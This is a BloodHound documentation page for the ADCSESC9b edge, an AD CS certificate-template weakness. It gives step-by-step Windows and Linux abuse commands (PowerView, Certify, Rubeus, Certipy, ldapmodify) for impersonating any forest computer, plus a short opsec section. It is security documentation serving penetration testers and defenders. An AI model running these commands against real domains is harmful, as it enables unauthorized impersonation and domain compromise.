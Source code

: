 ---
title: ADCSESC9b
description: "The principal has control over a victim computer with permission to enroll on one or more certificate templates, configured to: 1) enable certificate authentication, 2) require the `dNSHostName`  of the enrollee included in the Subject Alternative Name (SAN), and 3) not have the security extension enabled."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>



 The victim computer also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow weak certificate binding enforcement. This setup lets the principal impersonate any AD forest computer without their credentials.

The attacker principal can abuse their control over the victim computer to modify the victim computer's `dNSHostName` attribute to match the `dNSHostName` of a targeted computer. The attacker principal will then abuse their control over the victim computer to obtain the credentials of the victim computer, or a session as the victim computer, and enroll a certificate as the victim in one of the affected certificate templates. The `dNSHostName` of the victim will be included in the issued certificate under SAN DNS name. As the certificate template does not have the security extension, the issued certificate will NOT include the SID of the victim computer. DCs with strong certificate binding configuration will require a SID to be present in a certificate used for Kerberos authentication, but the affected DCs with weak certificate binding configuration will not. The affected DCs will split the SAN DNS name into a computer name and a domain name, confirm that the domain name is correct, and use the computer name appended a $ to identify principals with a matching `sAMAccountName`. At last, the DC issues a Kerberos TGT as the targeted computer to the attacker, which means the attacker now has a session as the targeted computer.

## Abuse Info

### Windows

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Set SPN of the victim computer using PowerView:

```PowerShell
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using PowerView:

```PowerShell
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='target.corp.local'}
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```PowerShell
Get-DomainObject -Identity VICTIM -Properties mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```PowerShell
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/generic-all) documentation).

Step 5: Enroll certificate as victim.

Use Certify (2.0) as the victim computer to request enrollment in the affected template, specifying the affected EnterpriseCA:

```cmd
Certify.exe request --ca SERVER\CA-NAME --template TEMPLATE --machine
```
The certificate PFX is printed to the console in a base64-encoded format.

Step 6 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous values using PowerView:

```PowerShell
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='victim.corp.local'}
```
```PowerShell
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 7: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Use Rubeus to request a ticket granting ticket (TGT) from an affected DC, specifying the target identity to impersonate and the base64-encoded certificate obtained in Step 5:

```cmd
Rubeus.exe asktgt /certificate:<cert base64> /user:TARGET$ /domain:DOMAIN /dc:DOMAIN_CONTROLLER
```

### Linux

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Remove SPN entries with ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\ndelete: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns TARGET.CORP.LOCAL
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/edges/generic-all) documentation).

Step 5: Enroll certificate as victim.

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target SERVER -template TEMPLATE
```
Step 6 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous value using Certipy and ldapmodify:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns VICTIM.CORP.LOCAL
```
```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nadd: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```
Step 7: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Request a ticket granting ticket (TGT) from an affected DC, specifying the certificate created in Step 5 and the IP of an affected DC:

```bash
certipy auth -pfx TARGET.pfx -dc-ip IP
```

**Opsec Considerations**

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy of that certificate in its issued certificates store. Defenders may analyze those issued certificates to identify illegitimately issued certificates and identify the principal that requested the certificate, as well as the target identity the attacker is attempting to impersonate.

## Edge Schema

Source: [User](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/user), [Group](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/group), [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Destination: [Domain](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/domain)  
Traversable: **Yes**  

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* Certipy 4.0
* [Certipy](https://github.com/ly4k/Certipy)
* [GhostPack Certify](https://github.com/GhostPack/Certify)
* [GhostPack Rubeus](https://github.com/GhostPack/Rubeus)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
